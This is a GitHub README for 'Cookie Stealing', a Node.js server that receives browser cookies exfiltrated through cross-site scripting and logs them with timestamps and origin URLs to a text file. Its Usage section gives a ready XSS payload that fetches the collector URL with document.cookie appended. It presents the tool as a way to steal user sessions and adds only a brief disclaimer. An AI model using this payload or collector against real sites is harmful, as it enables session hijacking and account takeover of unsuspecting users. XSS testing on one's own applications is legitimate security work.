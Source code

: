 <!--
*** Thanks to Best-README-Template (https://github.com/othneildrew/Best-README-Template)
-->

[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/ruigomes99/cookie-stealing">
    <img src="images/logo.png" alt="Logo" width="360" height="150">
  </a>

  <h3 align="center">Cookie Stealing</h3>

  <p align="center">
    An awesome API to collect cookies!
    <br />
    <a href="https://github.com/ruigomes99/cookie-stealing">View Demo</a>
    ·
    <a href="https://github.com/ruigomes99/cookie-stealing/issues">Report Bug</a>
    ·
    <a href="https://github.com/ruigomes99/cookie-stealing/issues">Request Feature</a>
  </p>
</p>


<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#setup-your-workstation">Setup Your Workstation</a></li>
        <li><a href="#quick-start">Quick Start</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project

There is a lot of tools to view the details of web cookies, but while I was testing XSS in my own personal projects I felt the need to store the cookies in order to steal the session from the user. So, I built this small project. His only purpose is to write a ".txt" about every unprotected cookie in detail.

### Built With

* [NodeJS](https://nodejs.org)


<!-- GETTING STARTED -->
## Getting Started

### Setup Your Workstation

- Install Node.js and npm to your local workstation

### Quick Start

1. Clone the repository:
```shell
git clone https://github.com/ruigomes99/cookie-stealing.git
```
2. Change directory:
```shell
cd cookie-stealing
```
3. Install dependencies:
```shell
npm install
```
4. Start the server:
```shell
npm start
```
5. Go at 'http://127.0.0.1:3000' and verify if you receive the "Hello World" message in your browser.


<!-- USAGE EXAMPLES -->
## Usage

IMPORTANT: This code is just for test propose and using this in third party websites in order to benefit yourself is punish as a cybersecurity crime.
<br />You can use this code on any website that allows XSS.
<br />You only need to do a GET request like this one:

```javascript
  <script> fetch('http://127.0.0.1:3000/cookies/' + document.cookie) </script>
```

This route receives a parameter called 'cookies'. In order to get the unprotected (httpOnly=false) cookies, you only need to use 'document.cookie' inside a `<script>` tag.
<br />After the GET request, the server will create or update a ".txt" file called cookies in the high-level path of the repository folder.
<br />This "cookies.txt" file contains the timestamp of the request, the origin URL and every unprotected cookie separated with paragraphs.


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/ruigomes99/cookie-stealing/issues) for a list of proposed features (and known issues).


<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.
1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request


<!-- LICENSE -->
## License

Distributed under the MIT License. See [MIT LICENSE](https://choosealicense.com/licenses/mit/) for more information.


<!-- CONTACT -->
## Contact

Rui Gomes -  [GitHub](https://github.com/ruigomes99) - ruigomes-99@hotmail.com
<br />Project Link: [https://github.com/ruigomes99/cookie-stealing](https://github.com/ruigomes99/cookie-stealing)


<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/ruigomes99/cookie-stealing.svg?style=for-the-badge
[contributors-url]: https://github.com/ruigomes99/cookie-stealing/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/ruigomes99/cookie-stealing.svg?style=for-the-badge
[forks-url]: https://github.com/ruigomes99/cookie-stealing/network/members
[stars-shield]: https://img.shields.io/github/stars/ruigomes99/cookie-stealing.svg?style=for-the-badge
[stars-url]: https://github.com/ruigomes99/cookie-stealing/stargazers
[issues-shield]: https://img.shields.io/github/issues/ruigomes99/cookie-stealing.svg?style=for-the-badge
[issues-url]: https://github.com/ruigomes99/cookie-stealing/issues
[license-shield]: https://img.shields.io/github/license/ruigomes99/cookie-stealing.svg?style=for-the-badge
[license-url]: https://github.com/ruigomes99/cookie-stealing/blob/main/LICENSE
